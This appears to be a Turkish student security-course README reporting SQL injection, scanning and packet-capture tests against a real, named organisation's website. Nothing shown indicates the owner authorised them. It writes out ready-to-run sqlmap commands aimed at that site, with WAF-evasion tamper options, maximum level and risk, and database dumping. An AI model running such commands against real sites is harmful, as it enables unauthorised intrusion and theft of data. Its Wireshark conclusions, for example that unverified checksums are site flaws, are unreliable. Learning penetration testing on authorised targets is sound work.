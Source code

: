 # Bilgi Sistemleri ve Güvenliği

Testler Sqlmap, Nikto, Nmap ve Wireshark üzerinden yapılmıştır.

# Nmap

https://www.shodan.io/
sitesinde yapılan taramada orta seviyeli olarak CVE-2014-4078 sonucu elde edildi ve ISS 8.5 kullanıldığı tespit edildi.

# Sqlmap

Sqlmapte yapılan testler sonucunda veritabanı olarak PostgreSQL kullanıldığı tespit edildi. Bunun yanı sıra yapılan testler sonucunda belirli çıktılar elde edildi.
WAF ile korunduğu için bazı sql injectionlar denenemedi bunlar txtler içinde gözükmektedir.

## Bu test aşamasında yazılan kodlar:

### 1-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --dump --batch

### 2-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --level 5 --risk 3 --dump --batch

### 3-)python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --tamper=space2comment --random-agent
#### Bu işlemde veritabanının PostgreSQL olduğu tespit edilmiştir!


### 4-) python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --dbms=postgresql --tamper=space2comment --random-agent --time-sec=10 --level=5 --risk=3
#### Bu test yüksek fazda olmuştur ve 11 saate yakın bir süreçte tamamlanmıştır.

<br>

# Wireshark

## 1. Bad TCP
tcp.analysis.flags && !tcp.analysis.window_update && !tcp.analysis.keep_alive && !tcp.analysis.keep_alive_ack <br>
Bad TCP 54 tane taradımız ağ’da bulduk, bunları göremek için github linkin’den ulaşabilirsiniz


## 2. ARP (Address Resulation Protocol)
Tipik bir kullanım, bir IP adresinin (ör. 192.168.0.10) temel Ethernet adresine (ör. 01:02:03:04:05:06) eşlenmesidir. ARP bu adreslerin keşfedilme şekli olduğundan, genellikle bir konuşmanın başında ARP paketlerini görürsünüz.
<br>Aşağıda 9 tane (ARP) paketini mustso’dan yakaladık. ARP bizim için önemli bir bilgidir.


## 3. HTTP (Hypertext Transfer Protocol)
Çok fazla içerik türü(content types) En kiritik buldumuz kısımda Application buldundu kısımdır.
Kötü amaçlı ve yazılım ararken kullandığınız etiket içerik türü ve uygulama türüdür.
Genelikle application ile başlayanları kötü amaçlı olarak kullanabiliriz, onları indirip ondan sonra deneyebiliriz ve eğer o uygulama çalışırsa hack ve kötü amaçlı olarak kullanabilir, o yüzden http protokolü çok önemli bir protokoldür.


## 4. TCP (Transmission Control Protocol)
Varsayılan olarak, Wireshark'ın TCP ayırıcısı her TCP oturumunun durumunu izler ve sorunlar veya olası sorunlar algılandığında ek bilgi sağlar. Bir yakalama dosyası ilk açıldığında analiz her TCP paketi için bir kez yapılır. Paketler, paket listesinde göründükleri sırayla işlenir.

### Bad TCP - Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.
### HTTP Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.
